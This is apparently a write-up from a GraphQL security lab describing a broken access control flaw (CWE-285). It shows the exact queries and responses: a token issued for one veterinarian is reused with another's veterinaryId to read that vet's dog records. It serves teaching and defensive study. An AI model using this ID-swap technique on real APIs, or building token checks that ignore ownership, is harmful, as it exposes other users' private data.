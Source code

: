 *broken access control*

[CWE-285](https://cwe.mitre.org/data/definitions/285.html)

#### Issue

As GraphQL is based on a single endpoint on which every requests is sent and as authorization is out of scope of the specification (no built-in features).

It's up to the application to implements an authorization logic.

In my labs I have a vulnerability on this point because the verification of the access token do not verify that the token belong to the veterinary passed in **veterinaryId**

**Example:**

I ask a access token for **Dr Julien** that have the identifier **3** in the storage by sending this GraphQL request:

```javascript
query getAccessToken {
  auth(veterinaryName: "Julien")
}
```

I receive the access token in the following GraphQL response:

```javascript
{
  "data": {
    "auth": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdWQiOiJwb2MiLCJzdWIiOiJKdWxpZW4iLCJpc3MiOiJBdXRoU3lzdGVtIiwiZXhwIjoxNTQ2NDQyOTAyfQ.H9A-vXRsiivFGShtdhiR3N2lSDDx-sNqbbJxMRNnExI"
  }
}
```

I send a GraphQL request to the query `myInfo(...)` using the obtained access token BUT I specify the identifier **2** that the one of **Dr Benoit**:

```javascript
query brokenAccessControl {
  myInfo(accessToken:"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdWQiOiJwb2MiLCJzdWIiOiJKdWxpZW4iLCJpc3MiOiJBdXRoU3lzdGVtIiwiZXhwIjoxNTQ2NDQyOTAyfQ.H9A-vXRsiivFGShtdhiR3N2lSDDx-sNqbbJxMRNnExI", veterinaryId: 2){
    id, name, dogs {
      name
    }
  }
}
```

I receive in the GraphQL response the list of Dogs associated with **Dr Benoit**:

```javascript
{
  "data": {
    "myInfo": {
      "id": 2,
      "name": "Benoit",
      "dogs": [
        {
          "name": "Babou"
        },
        {
          "name": "Baboune"
        },
        {
          "name": "Babylon"
        },
    ...
```